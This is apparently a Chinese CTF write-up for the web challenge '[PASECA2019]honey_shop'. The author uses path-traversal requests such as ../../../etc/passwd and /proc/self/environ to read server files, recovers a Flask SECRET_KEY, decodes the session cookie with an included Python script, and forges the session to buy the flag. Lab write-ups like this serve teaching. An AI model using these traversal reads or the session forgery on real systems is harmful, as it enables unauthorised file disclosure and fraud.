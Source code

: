 ```yaml
---
title: '[PASECA2019]honey_shop'
date: 2024-09-20 19:45:33
tags: session伪造
categories: 刷题笔记
---
```


## [PASECA2019]honey_shop

我们发现flag要1337块才能买，但我们只有1336块

我们点击图片，发现图片能够下载，那我们进行抓包看看



![image-20240920194735999](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409201947772.png)

这种url大多可以进行任意文件读取

<!--more-->

![image-20240920194846691](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409201948725.png)

我们尝试能不能读取到../../../etc/passwd

![image-20240920194925920](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409201949132.png)

也是成功读取到了文件内容，那我们试试flag能不能直接读取到

![image-20240920195003654](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409201950788.png)

显然，我们不能直接读取到flag

我们看看有没有其它的线索，我们点击buy进行抓包

![image-20240920195109319](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409201951415.png)

这个是购买物品的包，传入的item参数是物品序号，也没啥有用的信息。

没啥信息了，但我们看这特意提到的session，我们想到是不是可以继续session伪造来买东西

但我们需要找到这个网站的框架

我们访问../../../proc/self/envirson，发现这个网站是python的flask框架，那么这个网站的session可以破解

![image-20240920195322870](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409201953038.png)

我们使用脚本解密session

```
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode


def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of '
                        'an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before '
                            'decoding the payload')

    return session_json_serializer.loads(payload)


if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))

```

![image-20240920195953700](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409201959786.png)

解出第一个是金钱

我们伪造session，需要**SECRET_KEY**的值

前面已经找到了

![image-20240920200057317](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409202000381.png)

我们伪造session

![image-20240920200416037](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409202004060.png)

我们购买时修改session，得到flag

![image-20240920200453075](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202409202004230.png)
